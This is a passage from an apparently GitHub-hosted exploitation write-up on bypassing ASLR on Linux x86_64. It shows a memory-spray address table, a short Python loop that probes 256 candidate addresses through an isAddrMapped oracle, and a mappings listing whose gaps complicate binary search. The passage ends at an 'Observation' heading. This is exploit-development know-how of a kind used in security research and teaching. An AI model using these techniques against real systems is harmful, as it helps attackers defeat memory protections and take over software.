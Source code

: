 We can try to apply the [boundary cross trick](#Boundary-cross-trick).

<table><thead><tr><th>mem</th><th>4gb boundary cross?</th></tr></thead><tbody><tr><td>7fe2dc000000</td><td>No</td></tr><tr><td>7fe2e0000000</td><td>No</td></tr><tr><td>7fe2e4000000</td><td>No</td></tr><tr><td>7fe2e8000000</td><td>No</td></tr><tr><td>7fe2ec000000</td><td>No</td></tr><tr><td>7fe2f0000000</td><td>No</td></tr><tr><td>7fe2f4000000</td><td>No</td></tr><tr><td>7fe2f8000000</td><td>No</td></tr><tr><td>7fe2fc000000</td><td>No</td></tr><tr><td>7fe300000000</td><td>Yes</td></tr><tr><td>7fe304000000</td><td>Yes</td></tr><tr><td>7fe308000000</td><td>Yes</td></tr><tr><td>By exploiting the change from 7fe2.. to 7fe3.. we can scan memory with a step of 0x100000000 = 4gb memory.</td><td></td></tr></tbody></table>

[](#45-finally-defeating-aslr)4.5 Finally defeating ASLR
--------------------------------------------------------

Given that step size, we can scan `start=0x7f0000000000` to `end=0x800000000000` with only `end - start / size` = 256 queries.

```
start = 0x7f0000000000
end = 0x800000000000 
step = 0x100000000 # 4gb

isMapped = False
j = 0xff
while isMapped == False:
    leakAddr = start + j*step
    isMapped = (isAddrMapped(leakAddr, 1000 + j))
    j -= 1

```

At this point, we have `leakAddr` which is a mapped address like this: `0x7fXX00000000`, in [this](https://github.com/nick0ve/how-to-bypass-aslr-on-linux-x86_64/blob/main/Memory-Spray-result) case, `leakAddr = 0x7fe300000000`.

Now, if we want to follow the saelo technique, we should do a binary search of the range 0x7fXX00000000 - 0x7fXXffffffff, in order to find lower and upper bounds, the problem is that there are some holes in that range, so the binary search fails a lot of times.

You can check yourself with [this](https://github.com/nick0ve/how-to-bypass-aslr-on-linux-x86_64/blob/main/resources/analyze-mappings.py) script:

```
RANGE					SIZE

0x00007f7544000000 - 0x00007f763c000000	0xf8000000
SMALL GAP				0x00caa000
0x00007f763ccaa000 - 0x00007f763e358000	0x016ae000


```

That small gap between 0x00007f763c000000 and 0x00007f763ccaa000 screws up the binary search, of course it is still doable, but i found an easier way.

### [](#observation)Observation
